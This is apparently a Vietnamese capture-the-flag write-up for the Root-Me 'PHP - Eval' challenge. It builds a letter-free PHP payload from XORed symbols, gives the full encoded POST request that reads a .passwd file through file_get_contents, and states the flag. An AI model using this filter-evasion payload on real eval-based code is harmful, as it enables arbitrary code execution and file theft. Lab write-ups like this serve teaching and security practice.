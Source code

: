 # [PHP - Eval](https://www.root-me.org/en/Challenges/Web-Server/PHP-Eval)

## Solutions

Input không được chứa chữ cái, nhưng 2 kí tự không phải chữ cái xor lại với nhau ra chữ cái thì có thể:

- "POST" == ("~"^".").("~"^"1").("~"^"-").("~"^"*")

Lợi dụng tính năng này, có thể viết được php code truyền vào hàm eval.

Để không phải encode nhiều, chỉ cần encode một số biến mà giá trị của nó ta có thể truyền qua request:

- $_ = "]" ^ ";"; <=> "f"
- $__ = "." ^ "^"; <=> "p"
- $___ = "_".("~"^".").("~"^"1").("~"^"-").("~"^"*"); <=> "_POST"
- `${$___}[$_](${$___}[$__])`; <=> "`$_POST["f"]($_POST["p"])`"

=> Ghép tất cả lại: `${"_".("~"^".").("~"^"1").("~"^"-").("~"^"*")}["]" ^ ";"](${"_".("~"^".").("~"^"1").("~"^"-").("~"^"*")}["." ^ "^"])`

Ở POST body, để thực thi lệnh ta chỉ cần để f = tên hàm và q là parameter:

```http
input=%24%7b%22_%22.(%22~%22%5e%22.%22).(%22~%22%5e%221%22).(%22~%22%5e%22-%22).(%22~%22%5e%22*%22)%7d%5b%22%5d%22%20%5e%20%22%3b%22%5d(%24%7b%22_%22.(%22~%22%5e%22.%22).(%22~%22%5e%221%22).(%22~%22%5e%22-%22).(%22~%22%5e%22*%22)%7d%5b%22.%22%20%5e%20%22%5e%22%5d)&f=file_get_contents&p=.passwd
```

=> nội dung file passwd sẽ được đọc và truyền vào hàm print đã có sẵn ở source code.

Kết quả: `M!xIng_PHP_w1th_3v4l_L0L`

## Fails

- encode string `echo` hoặc `print` để thực thi thì bị lỗi `Call to undefined function`

## References

- <https://www.defenxor.com/blog/writing-simple-php-non-alphanumeric-backdoor-to-evade-waf/>
